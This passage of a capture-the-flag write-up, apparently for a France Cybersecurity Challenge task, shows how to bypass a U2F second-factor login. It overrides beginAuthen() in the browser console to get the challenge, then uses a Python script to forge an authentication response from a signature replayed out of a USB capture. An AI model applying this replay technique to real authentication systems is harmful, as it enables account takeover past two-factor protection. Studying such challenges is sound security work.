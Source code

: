 Let's go back to the U2F login page and override `beginAuthen()` function by
putting this in the developer console:

```javascript
function beginAuthen() {
    $.getJSON(
        "/beginAuthen",
        { keyHandle: "" },
        function (startAuthen) {
            console.log(startAuthen.challenge)
        },
    );
}
```

Now we call `beginAuthen()` and get `L8tsCkDErRPzV9SAOlOj2JzFMXAOjmUs7JnimkH9_gI`
challenge.
From the last section, we know that this correspond to the signature
of `8736c5b6cb8b27617a7ccbec9f599ba460eefee042fe25b9b2a673bf43ddb1e8` in the USB
capture.

We manually forge the response:

```Python
import base64
import json

# From USB capture
challenge = "L8tsCkDErRPzV9SAOlOj2JzFMXAOjmUs7JnimkH9_gI"
signature = ("01000000003046022100f60af84cfc0f3d9f33ae8ad04b617ab7"
             "cf782f70cd083a71aad738b4e75d51c0022100b43a629349cea1"
             "3415263b86a1afc637cd4c92dc8673a360577311710582f9da")

# Craft response
clientData = base64.b64encode(('{"challenge":"' + challenge + '","origin":"https://x-factor.france-cybersecurity-challenge.fr","typ":"navigator.id.getAssertion"}').encode()).replace(b"/", b"_").replace(b"+", b"-").replace(b"=", b"").decode()
keyHandle = "MiXECXjEbxAAe7QOH2gsiNiK7bXeuGJnLUGO7kbJutdODZvuqV-T1TPpTVEVIrynmScyNOjQaRAUi0PSH8LUtQ"
signatureData = base64.b64encode(bytes.fromhex(signature)).replace(b"/", b"_").replace(b"+", b"-").replace(b"=", b"").decode()

print(json.dumps({
    "clientData": clientData,
    "errorCode": 0,
    "keyHandle": keyHandle,
    "signatureData": signatureData
}))
```

Then send the response in the browser console:
```
finishAuthen({"clientData": "eyJj<snip>RcQWC-do"})
```
